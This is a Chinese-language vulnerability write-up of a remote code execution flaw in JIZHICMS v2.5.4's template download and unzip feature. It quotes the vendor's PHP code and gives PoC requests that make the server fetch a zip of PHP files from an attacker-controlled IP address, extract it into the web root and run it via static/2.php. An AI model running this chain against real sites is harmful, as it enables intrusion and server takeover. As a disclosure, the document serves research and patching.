

## Jizhicms v2.5.4 

极致网络科技 JIZHICMS（极致CMS）是中国极致网络科技公司的一套开源的内容管理系统（CMS）。

JIZHICMS 2.5.4最新版本存在文件上传漏洞可导致RCE，该漏洞源于组件`app\admin\c\TemplateController.php`中的任意文件下载解压漏洞。
### 调试分析

web系统有下载第三方模板的功能

找到代码在`app\admin\c\TemplateController.php`的`update`方法
主要代码逻辑如下：
```php
//下载安装更新
	function update(){
		$template = $this->frparam('template',1);
		if(strpos($template,'.')!==false){
			JsonReturn(array('code'=>1,'msg'=>JZLANG('参数存在安全隐患！')));
		}
        $this->template_name = $template;
		$dir = APP_PATH.'static';
		if($template){
			if($this->frparam('action',1)){
				$action = $this->frparam('action',1);
				// 自己获取这些信息
				$remote_url  = urldecode($this->frparam('download_url',1));
				$remote_url = strpos($remote_url,'?')!==false ? $remote_url.'&version='.$this->webconf['web_version'] : $remote_url.'?version='.$this->webconf['web_version'];
				$file_size   = $this->frparam('filesize',1);
				$tmp_path    = Cache_Path."/update_".$template.".zip";//临时下载文件路径
				switch ($action) {
				    case 'prepare-download':
				    	$code = 0;
						ob_start(); 
						$ch=curl_init($remote_url); 
						curl_setopt($ch,CURLOPT_HEADER,1); 
						curl_setopt($ch,CURLOPT_NOBODY,1); 
						$okay=curl_exec($ch); 
						curl_close($ch); 
						$head=ob_get_contents(); 
						ob_end_clean(); 
						$regex='/Content-Length:\s([0-9].+?)\s/'; 
						$count=preg_match($regex,$head,$matches); 
						$filesize = isset($matches[1])&&is_numeric($matches[1])?$matches[1]:0; 

				        JsonReturn(array('code'=>0,'size'=>$filesize));
				        break;
				    case 'start-download':
				        // 这里检测下 tmp_path 是否存在
				        try {
				            set_time_limit(0);
				            touch($tmp_path);
				            if ($fp = fopen($remote_url, "rb")) {
				                if (!$download_fp = fopen($tmp_path, "wb")) {
				                    exit;
				                }
				                while (!feof($fp)) {
				                    if (!file_exists($tmp_path)) {
				                        // 如果临时文件被删除就取消下载
				                        fclose($download_fp);
				                        exit;
				                    }
				                    fwrite($download_fp, fread($fp, 1024 * 8 ), 1024 * 8);
				                }
				                fclose($download_fp);
				                fclose($fp);
				            } else {
				                exit;
				            }
				        } catch (Exception $e) {
				            Storage::remove($tmp_path);
				            JsonReturn(['code'=>1,'msg'=>JZLANG('发生错误').'：'.$e->getMessage()]);
				        }

				        JsonReturn(['code'=>0,'tmp_path'=>$tmp_path]);
				        break;
				    case 'get-file-size':
				        // 这里检测下 tmp_path 是否存在
				        if (file_exists($tmp_path)) {
				            
				            JsonReturn(['code'=>0,'size'=>filesize($tmp_path)]);
				        }
				        break;
				    case 'file-upzip':
				    	if (!file_exists($tmp_path)) {//先判断待解压的文件是否存在
						   JsonReturn(['code'=>1,'msg'=>JZLANG('下载缓存文件不存在！')]);
						}
						//$msg = $this->upzip($tmp_path,$dir);
						$msg = $this->get_zip_originalsize($tmp_path,$dir.'/');
                        setCache('templatelist',null);
						JsonReturn(['code'=>0,'msg'=>$msg,'isinstall'=>true]);
				    	break;
				    case 'template-install':
					
						$tpl = $this->frparam('tpl',2);
						if(!count($tpl)){
							JsonReturn(array('code'=>1,'msg'=>JZLANG('请选择使用场景！')));
						}
				    	if(file_exists($dir.'/'.$template.'/install/TemplateController.php')){
							//直接设置模板
							require_once($dir.'/'.$template.'/install/TemplateController.php');
							$plg = new \TemplateController($this->frparam());
							$step1 = $plg->install();//执行安装
							if(!$step1){
								JsonReturn(array('code'=>1,'msg'=>JZLANG('执行插件安装程序失败！')));
							}
						}
						if(in_array('pc',$tpl)){
							M('sysconfig')->update(['field'=>'pc_template'],['data'=>$template]);
						}
						if(in_array('wap',$tpl)){
							M('sysconfig')->update(['field'=>'wap_template'],['data'=>$template]);
							M('sysconfig')->update(['field'=>'iswap'],['data'=>1]);
						}
						if(in_array('wechat',$tpl)){
							M('sysconfig')->update(['field'=>'weixin_template'],['data'=>$template]);
							M('sysconfig')->update(['field'=>'iswap'],['data'=>1]);
						}
						
						setCache('webconfig',null);
                        setCache('hometpl',null);
                        setCache('wxhometpl',null);
                        setCache('mobilehometpl',null);
                        setCache('templatelist',null);
						JsonReturn(array('code'=>0,'msg'=>JZLANG('安装成功！')));
				    	break;
					case 'backup':
						if(!is_dir(APP_PATH.'static/'.$template.'/backup')){
							mkdir(APP_PATH.'static/'.$template.'/backup',0777);
						}
						$this->backupPath = APP_PATH.'static/'.$template.'/backup';
						$this->toBackup();
						JsonReturn(array('code'=>0,'msg'=>JZLANG('备份成功！')));
						break;
				    default:
				        # code...
				        break;
				}
			}
```
可以看到，可以在分支`start-download`下载远程zip文件，得到下载好的地址为
```php
$tmp_path    = Cache_Path."/update_".$template.".zip";
```

并且有`file-unzip`分支可以解压下载好的zip文件，解压到文件夹：
```php
$dir = APP_PATH.'static';
```

跟进解压缩函数`get_zip_originalsize`，代码没有对文件内容做检查
```php
function get_zip_originalsize($filename, $path) {
      //先判断待解压的文件是否存在
      if(!file_exists($filename)){

         //die("文件 $filename 不存在！");

         JsonReturn(['code'=>1,'msg'=>$filename.JZLANG('文件不存在！')]);

      }

      $starttime = explode(' ',microtime()); //解压开始的时间

      //将文件名和路径转成windows系统默认的gb2312编码，否则将会读取不到
      //$filename = iconv("utf-8","gb2312",$filename);
      //$path = iconv("utf-8","gb2312",$path);
      //打开压缩包
      $resource = zip_open($filename);
      $i = 1;
      //遍历读取压缩包里面的一个个文件
      while ($dir_resource = zip_read($resource)) {
        //如果能打开则继续
        if (zip_entry_open($resource,$dir_resource)) {
          //获取当前项目的名称,即压缩包里面当前对应的文件名
          $file_name = $path.zip_entry_name($dir_resource);
          //以最后一个“/”分割,再用字符串截取出路径部分
          $file_path = substr($file_name,0,strrpos($file_name, "/"));
          //如果路径不存在，则创建一个目录，true表示可以创建多级目录
          if(!is_dir($file_path)){
            mkdir($file_path,0777,true);
          }

          //如果不是目录，则写入文件
          if(!is_dir($file_name)){
            //读取这个文件
            $file_size = zip_entry_filesize($dir_resource);
            //最大读取6M，如果文件过大，跳过解压，继续下一个
            $file_content = zip_entry_read($dir_resource,$file_size);
            file_put_contents($file_name,$file_content);
          }
          //关闭当前
          zip_entry_close($dir_resource);
        }
      }
      //关闭压缩包
      zip_close($resource);

      $endtime = explode(' ',microtime()); //解压结束的时间
      $thistime = $endtime[0]+$endtime[1]-($starttime[0]+$starttime[1]);
      $thistime = round($thistime,3); //保留3为小数
      $msg = JZLANG("解压完毕！本次解压花费")."：$thistime ".JZLANG("秒")."。";
      return $msg;
    }
```

那么我们可以在vps服务器放置一个含有php文件zip压缩包，然后下载、解压、访问即可RCE
### poc攻击

准备好压缩好的含有php文件的压缩包

vps起一个python服务放置文件`2.zip`，然后请求下载拿到文件名
poc:
```r
action=start-download&template=jzweb2&download_url=http://124.220.37.173:8999/2.zip
```


请求解压
poc:
```r
action=file-upzip&template=jzweb2
```


vps收到请求

访问路径成功解析执行php文件
```r
static/2.php
```


